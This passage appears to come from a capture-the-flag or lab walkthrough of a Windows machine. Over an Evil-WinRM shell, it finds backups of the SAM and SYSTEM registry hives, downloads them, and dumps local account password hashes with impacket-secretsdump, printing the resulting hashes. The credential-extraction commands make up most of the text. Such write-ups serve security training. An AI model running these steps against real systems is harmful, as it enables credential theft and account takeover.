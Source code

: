 ```shell
*Evil-WinRM* PS C:\Users\Jareth\Documents> cd 'C:\$Recycle.bin\S-1-5-21-1987495829-1628902820-919763334-1001'
*Evil-WinRM* PS C:\$Recycle.bin\S-1-5-21-1987495829-1628902820-919763334-1001> dir


    Directory: C:\$Recycle.bin\S-1-5-21-1987495829-1628902820-919763334-1001


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        9/18/2020   7:28 PM          49152 sam.bak
-a----        9/18/2020   7:28 PM       17457152 system.bak
```

We found some interesting files there. These seem to be backups of the SAM and SYSTEM registry hives, this means we can try to get them and dump the hashes.

### Getting the SAM and SYSTEM files and dumping hashes with impacket-secretsdump

Lets copy them to the Temp folder and then download them using the Evil-WinRM download function:

```shell
copy sam.bak C:\Windows\Temp\sam.bak
copy system.bak C:\Windows\Temp\system.bak
```

```shell
download C:\Windows\Temp\sam.bak
download C:\Windows\Temp\system.bak
```

Now we can dump the hashes using impacket-secretsdump locally on Kali:

```shell
impacket-secretsdump -sam sam.bak -system system.bak local
```

```shell
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Target system bootKey: 0xd676472afd9cc13ac271e26890b87a8c
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:6bc99ede9edcfecf9662fb0c0ddcfa7a:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:39a21b273f0cfd3d1541695564b4511b:::
Jareth:1001:aad3b435b51404eeaad3b435b51404ee:5a6103a83d2a94be8fd17161dfd4555a:::
[*] Cleaning up...
```

If the command above doesnt work, we can try adding the -debug parameter to see if we can still get something:

```shell
impacket-secretsdump -debug -sam sam.bak -system system.bak local
```
